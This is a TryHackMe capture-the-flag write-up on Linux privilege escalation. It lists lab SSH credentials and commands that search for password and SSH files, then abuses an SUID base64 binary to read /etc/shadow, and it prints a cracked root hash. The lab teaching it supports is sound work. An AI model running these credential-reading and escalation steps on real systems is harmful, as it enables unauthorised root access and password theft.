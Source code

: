 **TryHackMe Write-Up: Linux Privilege Escalation**

* **Target IP:** `10.10.55.87`
* **VPN:** Connected to TryHackMe using OpenVPN.
* **Initial Access:** Connected to the target VM via SSH using the following credentials:

  * **Username:** `leonard`
  * **Password:** `Penny123`

---

### 🧭 Enumeration

1. **Checked user privileges:**

   ```bash
   id
   ```

2. **Identified the hostname:**

   ```bash
   hostname
   ```

3. **Checked the kernel version:**

   ```bash
   uname -r
   ```

   * Kernel version: `3.10.0-1160.el7.x86_64`

4. **Checked for sudo privileges:**

   ```bash
   sudo -l
   ```

5. **Searched for interesting files (e.g., passwords, SSH keys):**

   ```bash
   find / -type f \( -name "*pass*" -o -name "*ssh*" \) 2>/dev/null
   ```

   * Nothing useful found.

6. **Searched online for kernel-specific vulnerabilities:**

   * No exploitable vulnerabilities found for this kernel version.

7. **Checked for files with SUID permissions:**

   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

   * Found several SUID binaries.
   * Notably, `base64` had the SUID bit set.

---

### 🛠 Exploitation via SUID `base64`

Using GTFOBins[](https://gtfobins.github.io/#), I discovered that the `base64` command can be abused to read files as another user when SUID is set.

* Read `/etc/shadow` using:

  ```bash
  base64 /etc/shadow | base64 --decode
  ```

* Extracted the root user's password hash from the file.

* Cracked the hash using [hashes.com](https://hashes.com), which revealed the root password.

`$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51:softkittywarmkitty`

---

### 🔐 Privilege Escalation

* Switched to the root user:

  ```bash
  su root
  ```

  * Entered the cracked password and successfully gained root access.

---

### 🏁 Flags

* Retrieved both `flag1` and `flag2` from the `missy` and `root` directories, respectively.

---

**Status:** ✅ Root access achieved and both flags captured.

Thanks!

